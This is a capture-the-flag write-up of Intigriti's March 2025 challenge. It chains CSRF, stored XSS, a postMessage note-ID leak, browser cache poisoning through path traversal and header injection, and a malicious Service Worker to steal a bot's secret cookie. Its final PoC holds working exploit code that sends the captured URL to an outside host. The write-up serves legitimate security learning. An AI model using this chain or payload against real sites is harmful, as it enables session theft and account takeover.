

# Writeup: Intigriti's Challenge 0325

I took on Intigriti’s March 2025 challenge, and it was a tough but definitely fun one!
My solution followed the intended path, but I still felt it was worth documenting for my own reference—so here we are.

One of the biggest takeaways for me was gaining a deeper understanding of just how powerful Service Workers can be and the wide range of ways Web Cache can be abused. 
It was an eye-opening experience, and I’m excited to share my approach and what I learned along the way.

Let's dive in!

---

## Challenge Overview

The target web application(Leaky Flagment) is a simple note-taking app with a basic login feature. The goal of the challenge is to find a vulnerability that allows us to steal the bot's session token, which contains the flag.



In this challenge, the application's source code was provided, allowing us to analyze its internals directly.  
You can find the repository here:
https://github.com/0x999-x/Intigriti-0325-CTF-challenge

---

## CSRF Protection Bypass
Upon reviewing the source code, I noticed that multiple vulnerabilities were scattered throughout.
The first issue I found was a CSRF protection bypass.

```js
// /nextjs-app/pages/api/post.js
if (content_type && !content_type.startsWith('application/json')) {
    return res.status(400).json({ message: 'Invalid content type' });
}
```

In the request to create a new note, the server validates whether the `Content-Type` start with `application/json`. However, if `Content-Type` is not set at all, this validation does not take place.
This can be bypassed using a technique involving Blob-based requests, which gained attention last year.  
By sending a request without explicitly setting the `Content-Type`, we can evade this check:

```js
fetch(`https://challenge-0325.intigriti.io/api/post`, {
  method: 'POST',
  credentials: 'include',
  body: new Blob([JSON.stringify({ title: "CSRF", content: ": (", user_password: false })]),
  mode: 'cors'
});
```

Additionally, I was fortunate (?) to find that the `SameSite` attribute for the session cookie was set to `None`.
While Firefox requires some additional adjustments, this configuration allows authenticated requests to be sent from cross-origin JavaScript.

OK, now we can make the bot create a note... So what next?

---

## HTML Filter Bypass

During note creation, there is also content validation.
```js
// /nextjs-app/pages/api/post.js
if (typeof content === 'string' && (content.includes('<') || content.includes('>'))) {
    return res.status(400).json({ message: 'Invalid value for title or content' });
}
```

However, if content is not a string, the validation does not take place. By sending content as an array, this check can also be bypassed.  
As a result, it is possible to create a note containing `<` and `>` via CSRF.  
If HTML can be injected into the content field, there is an obvious stored XSS vulnerability on the note page.  
```jsx
// /nextjs-app/app/note/[id]/page.jsx
<div
  className="prose max-w-none text-gray-700 whitespace-pre-wrap break-words"
  dangerouslySetInnerHTML={{ __html: note.content }}
/>
```

This means that a stored XSS attack can be executed via CSRF.  
```js
fetch(`https://challenge-0325.intigriti.io/api/post`, {
  method: 'POST',
  credentials: 'include',
  body: new Blob([JSON.stringify({ title: "CSRF", content: ["<h1>HTML</h1>"], user_password: false })]),
  mode: 'cors'
});
```

---

## Note ID Leak

In a bug bounty context, the impact up to this point would be crit. However, in an CTF challenge, we need to achieve a One Click ATO via the Bot. :)  

To execute XSS on the Bot, we need to leak the note ID from a cross-origin request and then open the URL containing the created note's ID. Since the note ID is a UUID, it is not feasible to guess. Additionally, there are no CORS misconfigurations.

After examining the source code for a while, I discovered a postMessage vulnerability in a feature called protected notes.  

The flow when opening a protected note is as follows:
1. On the `/notes` page, selecting a protected note opens `/protected-note` using `window.open()`.
2. On the `/notes` page, after entering the password, it is sent to the opened window along with the note ID.
3. The `/protected-note` page verifies the password against the notes stored in localStorage. If a match is found, it sends the corresponding note ID back to `/notes` via postMessage.
4. The `/notes` page then uses the received note ID to update the opened window, redirecting it to the note's page.

I found two implementation flaws in this flow that allow for the leakage of the note ID.  
Both issues originate from implementing the `/protected-note` endpoint in step 3 above.

#### First Issue: Insecure postMessage Handling  
```js
// /nextjs-app/app/protected-note/page.jsx
useEffect(() => {
    if(window.opener){
    window.opener.postMessage({ type: "childLoaded" }, "*");
    }
    setisMounted(true);
    const handleMessage = (event) => {
        if (event.data.type === "submitPassword") {
            validatepassword(event.data.password);
        }
    };

    window.addEventListener("message", handleMessage);
    return () => window.removeEventListener("message", handleMessage);
}, []);
```

The message event listener on this page accepts messages from any origin due to the wildcard `"*"` being used in `postMessage()`.

#### Second Issue: Lack of Note ID Validation

```js
// /nextjs-app/app/protected-note/page.jsx
const validatePassword = (submittedPassword) => {
    const notes = JSON.parse(localStorage.getItem("notes") || "[]");
    const foundNote = notes.find(note => note.password === submittedPassword);

    if (foundNote) {
        window.opener.postMessage({ type: "success", noteId: foundNote.id }, "*");
        setIsSuccess(true);
    } else {
        window.opener.postMessage({ type: "error" }, "*");
        setIsSuccess(false);
    }
};
```

Here, there is no validation of the note ID, and if a note does not have a password set, the password is treated as an empty string.
This allows us to send a postMessage with an empty password, causing the system to return the note ID of an unprotected note back to window.opener.

As a result, the following code leaks the note ID via cross-origin communication:
```js
window.addEventListener("message", (e) => {
  if (e.data.type === "success") {
    const noteId = e.data.noteId; // yes, we succeeded in leaking note id.
    if (win && !win.closed) { 
      win.location.href = `https://challenge-0325.intigriti.io/note/${noteId}`;
    }
  }
});

document.addEventListener("DOMContentLoaded", () => {
  win = window.open(`https://challenge-0325.intigriti.io/protected-note`);
  if (!win) {
    console.error("Failed to open window. It may have been blocked by the browser.");
    return;
  }
  setTimeout(() => {
      win.postMessage({ type: "submitPassword", password: "" }, "*"); // Send blank string in password field to leak non-protected note id
  }, 1000);
});
```

---

## Browser Cache Poisoning

At this point, we can make the Bot execute arbitary JavaScript. The final goal is to steal the `secret` cookie, which has the `HttpOnly` attribute set.
By examining middleware, we can see that the value of the `secret` cookie is displayed in the text fragment during redirection on the note page:

```js
// /nextjs-app/middleware.js
if (path.startsWith('/note/') && !request.nextUrl.searchParams.has('s')) {
  let secret_cookie = '';
  try {
    secret_cookie = atob(request.cookies.get('secret')?.value);
  } catch (e) {
    secret_cookie = '';
  }
  const secretRegex = /^[a-zA-Z0-9]{3,32}:[a-zA-Z0-9!@#$%^&*()\-_=+{}.]{3,64}$/;
  const newUrl = request.nextUrl.clone();
  if (!secret_cookie || !secretRegex.test(secret_cookie)) {
    return NextResponse.next();
  }
  newUrl.searchParams.set('s', 'true');
  newUrl.hash = `:~:${secret_cookie}`; // The secret is leaked through the text fragment during the redirect.
  return NextResponse.redirect(newUrl, 302);
}
return NextResponse.next();
```

Now, all we need to do is use XSS to extract this value. It seems straightforward.  
However, the text fragment value does not appear in `location.hash`.  

On Chrome, it can be retrieved using `performance.getEntriesByType("navigation")[0].name`, but this method does not work on Firefox.

Since I was stuck at this point, I reanalyzed the source code and discovered a cache misconfiguration in `/nextjs-app/middleware.js`:
```js
// /nextjs-app/middleware.js
const path = request.nextUrl.pathname;
if (path.startsWith('/view_protected_note')) {
  const query = request.nextUrl.searchParams;
  const note_id = query.get('id');
  const uuid_regex = /^[^\-]{8}-[^\-]{4}-[^\-]{4}-[^\-]{4}-[^\-]{12}$/;
  const isMatch = uuid_regex.test(note_id);
  if (note_id && isMatch) {
    const current_url = request.nextUrl.clone();
    current_url.pathname = "/note/" + note_id.normalize('NFKC');
    return NextResponse.rewrite(current_url);
  } else {
    return new NextResponse('Uh oh, Missing or Invalid Note ID :c', {
      status: 403,
      headers: { 'Content-Type': 'text/plain' },
    });
  }
}
```

When accessing `/view_protected_note`, it displays the note specified in the id query parameter.
Since the path check uses `path.startsWith`, this middleware is executed even when accessing paths like `/view_protected_note.js`.

Furthermore, according to `/nextjs-app/next.config.mjs`, any path ending in `.js` has the following headers applied, making it cacheable:
```js
// /nextjs-app/next.config.mjs
{
  source: '/:path*.js',
  headers: [
    {
      key: 'Cache-Control',
      value: 'public, max-age=120, immutable',
    },
  ],
}
```

I backed to `middleware.js` and analyzed the middleware implementation, I noticed that the uuid_regex validation is weak, allowing secondary context path traversal.  
Using `../` satisfy the regular expression, it is possible to access unintended paths and cache their responses.

For example, accessing `/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/../api/post` actually makes a request to `/api/post`.  
Additionally, the use of `note_id.normalize('NFKC')` is significant.  
By leveraging Unicode normalization, we can use multibyte characters like `‥ `(U+2025) or `︰`(U+FE30) to represent `..` in a single character.  
Using this, we can force `/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track` to cache the response of `/api/track`.

The implementation of `/api/track` is as follows.

```js
// /nextjs-app/api/track.js
res.setHeader('Content-Type', 'text/javascript')
    switch (method) {
        case 'GET':
            try {
                const userIp = req.headers['x-user-ip'] || '0.0.0.0'
                const jsContent = `
$(document).ready(function() {
    const userDetails = {
        ip: "${userIp}",
        type: "client",
        timestamp: new Date().toISOString(),
        ipDetails: {}
    };
    window.ipAnalytics = {
        track: function() {
            return {
                ip: userDetails.ip,
                timestamp: new Date().toISOString(),
                type: userDetails.type,
                ipDetails: userDetails.ipDetails
            };
        }
    };
});`
[...]
```

Since the `X-User-IP` header is directly concatenated into the JavaScript response, injecting a string into the `X-User-IP` header allows arbitrary JavaScript execution.
Fortunately, after checking the Nginx configuration file, I confirmed that the `X-User-IP` header can be added by an attacker through header injection.

Since we can already have the Bot execute arbitrary JavaScript, we can craft a request to poison the cache with malicious JavaScript.
By executing the following JavaScript, we can create a response that caches unintended JavaScript code:
```js
fetch('/view_protected_note.js?id=../../xx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track', {
  headers: {'X-User-IP':'<injection here>'}}
);
```

---

## Register a Malicious ServiceWorker Via Browser Cache
The reason for doing this even when XSS is already available is to leverage Service Workers.  
Since the injected JavaScript is served from the application's origin, it can be registered as a Service Worker.

While JavaScript running on the page was unable to access the text fragment, further testing revealed that Service Workers can indeed retrieve it.
In both Chrome and Firefox, the following `fetch` event handler can be used to capture the full URL, including the text fragment:
```js
// Service Worker
self.addEventListener("fetch", (event) => {
   console.log(event.request.url);
});
```

FYI, testing confirmed that in Chrome, `ServiceWorker.postMessage()` can also be used to obtain the text fragment:

```js
// Service Worker
addEventListener("message", (event) => {
  console.log(event.source.url);
});
```

Next, we need to ensure that the response from /api/track does not cause syntax errors. The response is structured as follows:
```js
// /nextjs-app/api/track.js
\`$(document).ready(function() {
    const userDetails = {
        ip: "${userIp}",
        type: "client",
        timestamp: new Date().toISOString(),
        ipDetails: {}
    };
    window.ipAnalytics = {
        track: function() {
            return {
                ip: userDetails.ip,
                timestamp: new Date().toISOString(),
                type: userDetails.type,
                ipDetails: userDetails.ipDetails
            };
        }
    };
});\`
```

Since the `userIp` is preceded by the `$` and `document`, we can use JavaScript hoisting to prevent reference errors.
We also need to adjust the parentheses to ensure correct syntax:

ref: https://developer.mozilla.org/en-US/docs/Glossary/Hoisting

```js
",}});var $,document;function $(){return{ready:f=>f()}}; <arbitrary code here> (() => { var a = {a:"`
```

`navigator.serviceWorker.register` does not allow us to directly modify the `X-User-IP` header.
Thus, I first used `fetch` to store the desired response in the browser's cache before attempting to register the Service Worker.

Through trial and error, I discovered that the following approach successfully forces `navigator.serviceWorker.register` to use the cached payload:

1. Register an initial Service Worker.
2. Cache the malicious response using a fetch request.
3. Wait a short period.
4. Re-register the Service Worker, which will now load from the cache.
```js
navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track', {scope:'/', updateViaCache: 'all'}).then(
  (registration)=>{
    fetch('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {
      headers: {'X-User-IP':'${sw_payload}'}, cache: "force-cache"});
});
setTimeout(()=>{navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {scope:'/', updateViaCache: 'all'})},3000);
```

This ensures that when the ServiceWorker is registered for the second time, it loads the cached malicious payload, executing the attack.

---

## PoC
Finally, I will present an exploit code that combines these elements to steal a secret.

```js
// exploit.js
const target = "https://challenge-0325.intigriti.io";

const sw_payload =  `",}});var $,document;function $(){return{ready:f=>f()}}; self.addEventListener("fetch", (event) => { if (event.request.url.includes("taise")) { event.respondWith( fetch("https://app.inugasky.net/?f=" + btoa(event.request.url))); } else { event.respondWith(fetch(event.request)); } }); (() => { var a = {a:"`
const note_payload = `
<script>
navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track', {scope:'/', updateViaCache: 'all'}).then(
  (registration)=>{
    fetch('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {
      headers: {'X-User-IP':'${sw_payload}'}, cache: "force-cache"});
});
setTimeout(()=>{navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {scope:'/', updateViaCache: 'all'}).then(
  (registration)=>{location.reload();}
)},3000);
</script>
<style>
`

let win;

window.addEventListener("message", (e) => {
  if (e.data.type === "success") {
    const noteId = e.data.noteId;
    if (win && !win.closed) {
      win.location.href = `${target}/note/${noteId}`;
    }
  }
});

document.addEventListener("DOMContentLoaded", () => {
  document.onclick = () => {
    win = window.open(`${target}/protected-note`);
    if (!win) {
      console.error("Failed to open window. It may have been blocked by the browser.");
      return;
    }
    fetch(`${target}/api/post`, {
      method: 'POST',
      credentials: 'include',
      body: new Blob([JSON.stringify({ title: "exploit", content: [note_payload.trim()], user_password: false })]),
      mode: 'cors'
    });

    setTimeout(() =>{
        win.postMessage({ type: "submitPassword", password: "" }, "*"); 
    }, 1000);
  };
});
```

This is all, thank you for your reading :)
